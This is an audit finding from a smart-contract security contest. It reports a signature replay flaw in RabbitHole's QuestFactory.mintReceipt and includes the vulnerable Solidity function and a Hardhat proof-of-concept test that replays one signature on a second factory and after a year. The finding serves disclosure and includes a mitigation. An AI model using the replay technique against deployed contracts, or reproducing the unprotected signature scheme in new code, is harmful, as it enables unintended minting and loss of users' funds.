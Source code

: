 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- primary issue
- satisfactory
- selected for report
- M-09

# [Possible scenario for Signature Replay Attack ](https://github.com/code-423n4/2023-01-rabbithole-findings/issues/107) 

# Lines of code

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/QuestFactory.sol#L219-L229


# Vulnerability details

## Impact
The `QuestFactory.mintReceipt` function mints `RabbitHoleReceipt` tokens based upon signatures signed by `claimSignerAddress`.
```solidity
    function mintReceipt(string memory questId_, bytes32 hash_, bytes memory signature_) public {
        if (quests[questId_].numberMinted + 1 > quests[questId_].totalParticipants) revert OverMaxAllowedToMint();
        if (quests[questId_].addressMinted[msg.sender] == true) revert AddressAlreadyMinted();
        if (keccak256(abi.encodePacked(msg.sender, questId_)) != hash_) revert InvalidHash();
        if (recoverSigner(hash_, signature_) != claimSignerAddress) revert AddressNotSigned();

        quests[questId_].addressMinted[msg.sender] = true;
        quests[questId_].numberMinted++;
        emit ReceiptMinted(msg.sender, questId_);
        rabbitholeReceiptContract.mint(msg.sender, questId_);
    }
```
In the above function only the account's address and quest id values are used to generate and validate the signature. 

This causes various issues which are mentioned below:

1. There is no deadline for the signatures. Once a signature is signed by `claimSignerAddress` that signature can be provided to `QuestFactory.mintReceipt` function to mint an RabbitholeReceipt token at any point in the future.

2. The signature can be replayed on other EVM compatible chains on which RabbitHole protocol is deployed. The [docs](https://github.com/rabbitholegg/quest-protocol/tree/8c4c1f71221570b14a0479c216583342bd652d8d#deployments) mention other EVM chain addresses of the contracts which means the protocol will be deployed on multiple chains.

3. The signature can be replayed on multiple instances of QuestFactory contract. If multiple QuestFactory contracts are deployed on a single EVM chain then signature intended for one contract can be replayed on the other ones.

Note that all these scenarios are true when `questId_` parameter stays same.

#### Actual Impact
Exploitation using the above mentioned scenarios will lead to unintended minting of RabbitholeReceipt token. This is a crucial token for the protocol which is also used to claim rewards from Quest contracts. Hence any unintentional minting will cause loss of funds.

## Proof of Concept
The test cases were added in `./test/QuestFactory.spec.ts` file and ran using command `npx hardhat test ./test/QuestFactory.spec.ts`.
```typescript
  describe.only('QuestFactory: Signature Replay Bug', () => {
    it('Signature can be used in different QuestFactory instance or on different chain', async () => {
      const randomUser = (await ethers.getSigners())[10];
      const questA = "A";

      // Sign message and create new Quest
      const messageHash = utils.solidityKeccak256(['address', 'string'], [randomUser.address.toLowerCase(), questA])
      const signature = await wallet.signMessage(utils.arrayify(messageHash))
      await deployedFactoryContract.setRewardAllowlistAddress(deployedSampleErc20Contract.address, true)
      await deployedFactoryContract.createQuest(
        deployedSampleErc20Contract.address, expiryDate, startDate, totalRewards, rewardAmount, 'erc20', questA
      )

      // Use the signature on First QuestFactory
      await deployedFactoryContract.connect(randomUser).mintReceipt(questA, messageHash, signature)
      expect(await deployedRabbitHoleReceiptContract.balanceOf(randomUser.address)).to.equal(1)

      const factoryPrevious = deployedFactoryContract
      const RHRPrevious = deployedRabbitHoleReceiptContract

      // Deploy a new QuestFactory (this could be on a different chain)
      await deployRabbitHoleReceiptContract()
      await deployFactoryContract()

      expect(factoryPrevious.address).to.not.eq(deployedFactoryContract.address)            // Verify we have new instance
      expect(RHRPrevious.address).to.not.eq(deployedRabbitHoleReceiptContract.address)

      // Create new Quest in new QuestFactory
      await deployedFactoryContract.setRewardAllowlistAddress(deployedSampleErc20Contract.address, true)
      await deployedFactoryContract.createQuest(
        deployedSampleErc20Contract.address, expiryDate, startDate, totalRewards, rewardAmount, 'erc20', questA
      )

      // Use the previously used signature again on new QuestFactory
      await deployedFactoryContract.connect(randomUser).mintReceipt(questA, messageHash, signature)
      expect(await deployedRabbitHoleReceiptContract.balanceOf(randomUser.address)).to.equal(1)
      expect(await RHRPrevious.balanceOf(randomUser.address)).to.equal(1)
    })

    it('Signature can be used after 1 year', async () => {
      const randomUser = (await ethers.getSigners())[10];
      const questA = "A";

      // Sign message and create new Quest
      const messageHash = utils.solidityKeccak256(['address', 'string'], [randomUser.address.toLowerCase(), questA])
      const signature = await wallet.signMessage(utils.arrayify(messageHash))
      await deployedFactoryContract.setRewardAllowlistAddress(deployedSampleErc20Contract.address, true)
      await deployedFactoryContract.createQuest(
        deployedSampleErc20Contract.address, expiryDate, startDate, totalRewards, rewardAmount, 'erc20', questA
      )

      // Move ahead 1 year
      await ethers.provider.send("evm_mine", [expiryDate + 31536000])

      // Use the signature
      await deployedFactoryContract.connect(randomUser).mintReceipt(questA, messageHash, signature)
      expect(await deployedRabbitHoleReceiptContract.balanceOf(randomUser.address)).to.equal(1)
    })
  })
```

## Tools Used
Hardhat

## Recommended Mitigation Steps
Consider including deadline, chainid and QuestFactory's address in the signature message. Ideally signatures should be created according to the [EIP712](https://eips.ethereum.org/EIPS/eip-712) standard.